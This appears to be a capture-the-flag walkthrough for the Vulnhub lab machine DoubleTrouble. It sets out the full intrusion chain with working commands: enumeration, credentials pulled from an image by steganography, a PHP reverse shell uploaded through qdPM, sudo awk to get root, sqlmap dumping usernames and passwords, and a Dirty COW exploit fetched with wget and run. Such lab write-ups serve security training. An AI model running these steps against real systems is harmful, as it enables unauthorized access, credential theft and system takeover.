# DoubleTrouble | Vulnhub | Walkthrough


| Category      |   Details     |
|---------------|---------------|
| Platform      | [Vulnhub](https://www.vulnhub.com/entry/doubletrouble-1,743/)       |
| Attacker      | Kali Linux    |
| Difficulty    | Medium        |
| Tools         | nmap, gobuster, stegseek, wget, sqlmap, burp |

Let’s dive in
find the IP of the machine
`nmap <ip range>` <br>

 <br>

Found it!!<br>
next up a nmap scan to find better insite on the machine<br>
`nmap -A -T4 <ip address>` <br>



### Nmap scan
|Port | Service |
|-----|---------|
|22   | ssh     |
|80   | http    |
let’s go ahead and check out the webpage on port 80 <br>



A login page that is running using qdPM 9.1, did a simple google search and found its vulnerable to RCE but there’s a draw-back its needs valid login credentials and as of now i got nothing. <br>
So lets move to directory enumeration, whenever a webpage is invovled enumerating its directories is one of the best ways to find a path. 

# Enumeration 

`gobuster dir -u http://ipaddress/ -w path-to-wordlist`


<br>

Whoa!! a /secret file, now that sounds interesting lets check it out<br>


<br>

The /secret file leads to a image file, typically in CTF’s image files hide hints in them using "steganography"<br>
let’s use wget to download the image and "Stegseek" to analyse the file<br>


<br>

<br>
Great! found email id and password, let’s use these and try and login into the login page we got at the begining<br>


<br>
It works, we are in<br>
now remember the Vulnerablility we found at the start lets use it right now,<br>
search for a way to submit a file (php-reverse shell)<br>


<br>

got it, now we need is a php reverse shell
[Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) has the php file we need right now, after downloading the file we will need to edit the script<br>
then upload the file.

```python
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS to your machine ip 
$port = 1234;       // CHANGE THIS to your port of choice 
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

# Exploitation

now go to http://ipadress/uploads then click on users


<br>

Before clicking on the file and running it we need to set a listener on our attack machine<br>
`nc -lvnp 4444` <br>


<br>

# Initial Access

reverse shells are normally not pretty and stable<br>
lets stable it<br>
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
nothing much to be found in www-data, let’s escalate our privileges

# Privilege Escalation

```
sudo -l
```
 
<br>

`/usr/bin/awk` seems interesting lets check GTFObins
found a way to bypass local security and gain root access using awk
[awk | GTFOBins](https://gtfobins.org/gtfobins/awk/#shell)

```
sudo awk ‘BEGIN {system(“/bin/sh”)}’
```


<br>

Got root!! Again we have to stabalize the shell.<br>
well inside the /root the directory found another VM `Doubletrouble.ova`<br>
This explains the name Double trouble 😅<br>
lets download it and investigate, but inorder to download it we will have to move it to `/var/www/html directory` 


<br>

now lets go ahead and download it into our attacker machine
```
wget http://ipaddress/doubletrouble.ova
```
As i am using a VM for all my CTF exercises, i will be needing to send this to my host machine in order to host it through virtualbox.
there are many ways you can go ahead with this
1. A shared folder host machine.
2. Start a http server in your attack machine and then through your host machine browser you will be able to download the file.

<b>Nmap results</b>
scan results on the 2nd machine reveals 
|Port | Service |
|-----|---------|
|22   | ssh     |
|80   | http    |

lets check out the webpage<br>


<br>

very basic static webpage,
Tried common username and passwords no luck no useful error displayed too.
next up a directory enumeration, the results did point anything usefull either So lets go ahead and intercept the communication and figure something out
turn on burpsuite and intercept the traffic<br>


<br>
tested the application for various web application security flaws. By studying the application error in the response, we identified SQL injection vulnerability in the name parameter. In the next step, we will be using SQLMap to exploit this vulnerability.
copy the request to a txt file
```
sqlmap -r request.txt --dbs
```

<br>
Found two database
- doubletrouble
- information_schema

let’s get tables and column info of doubletrouble
```
sqlmap -r response.txt -D doubletrouble --tables
```

<br>
Found a table named `users`, lets get data inside users
```
sqlmap -r response.txt -T users --dump
```

 
<br>

found two users with password
| Username | Password |
|--|--|
|montreux|GfsZxc1|
|clapton | ZubZub99|

ssh using `clapton` login worked !!
```
got user.txt
6CEA7A737C7C651F6DA7669109B5FB52
```
Let’s move towards Root Flag, `uname -a`

<br>
"google linux 3.2.0–4-amd64 exploit"<br>
came across a exploit called <b>dirty_cow [(CVE-2016–5195)](https://dirtycow.ninja/)</b><br>
<para>“A [race condition](https://en.wikipedia.org/wiki/Race_condition) was found in the way the Linux kernel’s memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.”</para>
Download the exploit from exploit-db<br>
you can either download the exploit directly into the target machine using wget<br>
or<br>
you can download it into your attack machine then start a http.server through which you can download file onto the target machine<br>
```
#target machine 
cd /tmp
wget https://www.exploit-db.com/exploits/40839 
gcc -pthread 40839.c -o dirty.c -lcrypt
./dirty.c
```


<br>
enter a new password and then ssh login with user firefart and the new password<br>

<br>

<br>
There you have it !!!!!!!!!!!!!!!!!!!!!!!!!<br>
root access and root.txt<br>
Hope this walkthrough was useful and easy to follow.<br>
Happy Hacking !!
